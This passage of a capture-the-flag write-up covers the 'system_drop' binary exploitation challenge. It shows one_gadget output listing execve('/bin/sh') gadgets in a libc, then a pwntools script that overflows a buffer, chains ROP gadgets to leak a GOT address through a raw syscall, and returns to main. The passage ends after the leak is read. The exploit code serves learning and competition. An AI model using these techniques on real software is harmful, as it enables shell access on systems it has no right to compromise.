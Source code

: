 The tool will actually show you vital offsets for libc gadgets like system() and /bin/sh, but I prefer to download the library and run onegadget. That also lets us do the LD_PRELOAD trick locally for debugging purposes. So, we run onegadget on the libc file:

```
knittingirl@piglet:~/CTF/HTBApocalypse/systemdrop$ one_gadget system_drop_libc.so 
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

```

And now we are ready to put it all together into a final script; I will note that I had a slight struggle with my onegadgets and ended up using the second one (0x4f432), with nulls appended to the end of my payload in order to over rsp+0x40 with those nulls and satisfy my constraint. The resulting script is shown below:

```
from pwn import *

target = process('./system_drop', env={"LD_PRELOAD":"./system_drop_libc.so"})

pid = gdb.attach(target, "\nb *main+45\n set disassembly-flavor intel\ncontinue")

#target = remote ('139.59.168.47', 31111)

elf = ELF("system_drop")
libc = ELF("system_drop_libc.so")

#Gadgets:

onegadget_offset = 0x4f432
read_got_plt = p64(0x601020)
alarm_got_plt = p64(0x601018)
main = p64(0x00400541)

pop_rdi = p64(0x00000000004005d3) # : pop rdi ; ret
pop_rsi = p64(0x00000000004005d1) # : pop rsi ; pop r15 ; ret


syscall = p64(0x000000000040053b) # : syscall

padding = b'a' * 40

payload = padding
payload += pop_rdi
payload += p64(1)
payload += pop_rsi
payload += alarm_got_plt + p64(0)
payload += syscall
payload += main


target.sendline(payload)

result = target.recvuntil(b'\x00\x00\x00', timeout = 100)
```